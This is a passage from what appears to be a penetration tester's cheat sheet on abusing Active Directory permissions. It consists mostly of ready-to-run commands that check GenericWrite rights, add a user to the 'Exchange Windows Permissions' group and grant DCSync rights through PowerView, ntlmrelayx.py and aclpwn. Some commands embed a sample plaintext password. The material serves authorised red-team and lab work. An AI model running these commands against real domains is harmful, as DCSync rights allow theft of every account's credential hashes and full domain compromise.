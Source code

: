 Check if the attacker "MEGACORP\sbauer" (`S-1-5-21-3167813660-1240564177-918740779-3102`) has `GenericWrite` permissions on the "jorden" user object:

```
PowerView3 > Get-DomainObjectAcl -Identity jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq "S-1-5-21-3167813660-1240564177-918740779-3102"}
```

Notes:

* PowerView 3.0 does not return `IdentityReference` property, which makes it less handy for this task (however, you may filter the output by the attacker's SID).
* `-ResolveGUIDs` switch shows `ObjectType` and `InheritedObjectType` properties in a human form (not in GUIDs).



### Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```

Add DCSync rights with PowerView2:

```
PowerView2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```

Add DCSync rights with PowerView3:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PowerView3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Add DCSync rights with ntlmrelayx.py:

```
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
```

Add DCSync rights with aclpwn.py:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```
